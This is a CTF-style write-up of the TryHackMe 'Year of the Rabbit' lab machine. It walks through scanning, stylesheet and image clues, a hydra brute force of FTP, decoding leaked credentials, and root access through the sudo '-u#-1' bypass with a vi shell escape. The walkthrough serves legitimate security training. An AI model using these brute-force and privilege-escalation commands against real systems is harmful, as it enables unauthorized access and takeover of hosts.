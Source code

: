 ```yaml
---
title: THM Year-of-the-rabbit writeup
description: Tryhackme Year-of-the-rabbit writeup
image: https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg
tags: ["FTP", "stegnography", "vi"]
authors: ["shivam"]
---
```


Hello everyone,

Today we are going to do Year-of-the-rabbit machine from Tryhackme. we will see some stegnography,some rabbit holes and privesc with vi.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg)

<!--truncate-->

## nmap results

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 13:35 EDT
Nmap scan report for 10.10.190.212 (10.10.190.212)
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

---

## dirsearch results

```c
[13:44:08] Starting:
[13:44:17] 301 -  315B  - /assets  ->  http://10.10.190.212/assets/
[13:44:31] 200 -    8KB - /index.html
[13:44:44] 403 -  278B  - /server-status
```

---

--> i got 2 files in `/assets`

![](attachments/Pastedimage20210902140443.png)

--> first video was rickroll and i found one comment in `style.css` file

```py
 Nice to see someone checking the stylesheets.
 Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

--> when i goto this file i got one alert saying

`disable javascript`

so i disabled javascript and found this :

![](attachments/Pastedimage20210902140740.png)

--> and this time there was a directory called `sup3r_s3cr3t_fl4g`

--> so i ran dirsearch on this and found only `index.html`

--> i found this hidden directory after intercepting the response

![](attachments/Pastedimage20210902143034.png)

--> after going to this directory i found one image and when i done `strings <image>` then i found this :

![](attachments/Pastedimage20210902144212.png)

---

## Stegnography

--> and the text after `One of these is the password:` is not the exifdata but it's actully the list of passwords !

so we have to use them as a wordlist for hydra

--> so Let's brute force the ftp password for `ftpuser`

```bash
┌──(kali㉿kali)-[~/Documents/THM/Yearoftherabbit]
└─$ hydra -l ftpuser -P wordlist.txt ftp://10.10.190.212
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-02 14:41:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.190.212:21/
[21][ftp] host: 10.10.190.212   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-02 14:41:26
```

--> and i got password !

--> so Let's login on ftp !

---

## FTP

--> got this in ftp

![](attachments/Pastedimage20210902144533.png)

--> This is `brainfuck` lanugage so Let's decode it !

--> and i got the password for `eli` and it must be a SSH password

![](attachments/Pastedimage20210902144640.png)

```c
eli:DSpDiM1wAEwid
```

---

## SSH

--> when we will login with ssh then i got this message

![](attachments/Pastedimage20210903114342.png)

--> then i done `locate s3cr3t` and found one directory

![](attachments/Pastedimage20210903114446.png)

--> so Let's read that file

```c
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

--> so now we have password of gwendoline so Let's login

--> and we got logged in and got `user.txt`

---

## Privesc

when i done `sudo -l` i found this :

```c
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

--> it means we can run `vi`as every user except root so we have to find something to bypass this because we want root shell

--> after some research i found this exploit from exploit-db

https://www.exploit-db.com/exploits/47502

--> so i made this command

```c
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

--> after that press `shift+;` and then write `!/bin/bash` and you will get root shell !

---

